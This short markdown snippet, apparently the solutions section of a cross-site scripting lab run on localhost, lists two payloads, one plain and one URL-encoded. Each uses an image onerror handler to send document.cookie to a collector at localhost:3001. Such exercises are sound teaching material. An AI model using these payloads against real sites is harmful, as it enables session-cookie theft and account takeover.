 
# Solutions
1. ```http://localhost:3000/?q=<img src=x onerror=this.src='http://localhost:3001/cookie?data='+document.cookie;>```

2. ```
%3Cimg%20src%3Dx%20onerror%3D%22var%20img%20%3D%20document%2EcreateElement%28%27img%27%29%3B%20img%2Esrc%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document%2Ecookie%3B%22%3E
```
